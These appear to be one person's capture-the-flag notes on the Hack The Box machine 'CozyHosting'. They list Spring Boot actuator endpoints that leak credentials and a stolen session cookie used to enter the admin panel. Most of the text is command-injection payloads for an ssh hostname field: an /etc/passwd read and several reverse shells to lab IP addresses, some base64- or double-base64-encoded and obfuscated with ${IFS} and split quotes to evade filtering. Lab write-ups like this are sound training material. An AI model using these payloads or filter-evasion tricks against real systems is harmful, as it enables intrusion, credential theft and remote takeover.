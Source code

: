 springboot for backend with java

![[Pasted image 20230904191555.png]]
http://cozyhosting.htb/actuator/env
http://cozyhosting.htb/actuator/beans
http://cozyhosting.htb/actuator/env/spring.datasource.password

|   |   |
|---|---|
|727B2BC3E745B1CDE791174BD7939621|"kanderson"|  

finally entered to the admin dashboard by cookie tempering
![[Pasted image 20230905134210.png]]

http://cozyhosting.htb/admin?error=ssh:%20Could%20not%20resolve%20hostname%20kanderson:%20Temporary%20failure%20in%20name%20resolution


usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface] [-b bind_address] [-c cipher_spec] [-D [bind_address:]port] [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11] [-i identity_file] [-J [user@]host[:port]] [-L address] [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port] [-Q query_option] [-R address] [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]] destination [command [argument ...]]

user is =>  K.Anderson

%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.52%2F4444%200%3E%261%0A

;cat%20../../../../../../../../../../etc/passwd;ls   <= this literally worked 


ssh;echo$(echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zOS80NDQ0IDA+JjE=|base64${IFS}-d|bash);@host

sh${IFS}-i>dev/udp/10.10.14.39/4444 0>&1


## payload 
```null
echo${IFS}cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjUyIiw5MDAxKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64${IFS}-d|bash
```

decoded :   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.195",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'




;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Ny80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}bash64${IFS%??}-d${IFS%??}|${IFS%??}bash;

WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0M055ODBORFEwSURBK0pqRUs=

# ;echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0M055ODBORFEwSURBK0pqRUs=|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h;

echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h

;echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRekxqYzFMelEwTkRRZ01ENG1NUT09|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h;